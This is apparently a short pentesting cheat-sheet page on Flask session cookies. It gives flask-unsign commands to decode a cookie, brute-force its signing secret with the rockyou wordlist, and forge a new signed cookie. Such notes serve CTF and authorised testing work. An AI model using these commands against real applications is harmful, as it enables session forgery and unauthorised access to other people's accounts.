 ```yaml
---
title: "Flask Cookie"
date: 2024-6-27
tags: ["flask", "python", "cookie", "sign", "unsign"]
---
```


### Cookie Tools

{{< tab set1 tab1 active >}}flask-unsign{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Install
pip3 install flask-unsign
```

```console
# Decode flask cookie
flask-unsign --decode --cookie <COOKIE>
```

```console
# Brute force secret key
flask-unsign --unsign --cookie <COOKIE> -w /usr/share/wordlists/rockyou.txt --no-literal-eval
```

```console
# Forge flask cookie
flask-unsign --sign --cookie <COOKIE_DATA> --secret <SECRET>
```

{{< /tabcontent >}}
